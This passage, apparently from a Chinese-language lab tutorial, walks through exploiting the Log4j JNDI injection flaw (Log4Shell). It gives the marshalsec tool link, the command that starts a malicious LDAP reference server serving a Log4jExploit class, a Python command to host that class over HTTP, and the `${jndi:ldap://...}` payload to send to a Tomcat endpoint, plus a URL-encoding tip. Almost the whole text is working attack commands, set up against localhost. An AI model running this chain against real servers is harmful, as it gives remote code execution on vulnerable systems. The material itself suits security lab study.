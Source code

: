 
marshalsec工具：
`https://github.com/mbechler/marshalsec.git`

开启ldap服务：
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://localhost:8000/#Log4jExploit" 1389`


在`Log4jExploit.class`文件目录下开启一个服务供外部访问：
`python3 -m http.server`

使用`tomcat`发送恶意payload:`URL/exploit?input=${jndi:ldap://127.0.0.1:1389/Log4jExploit}`
> 如果使用`hackbar`需要对payload进行url编码